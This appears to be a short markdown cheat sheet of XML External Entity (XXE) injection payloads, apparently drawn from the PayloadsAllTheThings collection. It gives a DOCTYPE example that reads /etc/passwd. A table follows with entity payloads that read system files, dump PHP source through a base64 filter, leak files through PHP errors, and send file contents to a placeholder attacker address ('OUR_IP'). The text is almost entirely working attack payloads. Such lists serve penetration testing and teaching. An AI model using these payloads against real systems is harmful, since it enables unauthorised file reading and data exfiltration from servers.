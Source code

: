 # PAYLOAD EXAMPLE:

#### <?xml version="1.0"?>

#### <!DOCTYPE example [<!ENTITY read SYSTEM 'file://etc/passwd'>]>

#### <example> &read;</example>

## Resource: https://github.com/swisskyrepo/PayloadsAllTheThings

## XXE

| **Code**   | **Description**   |
| --------------|-------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |
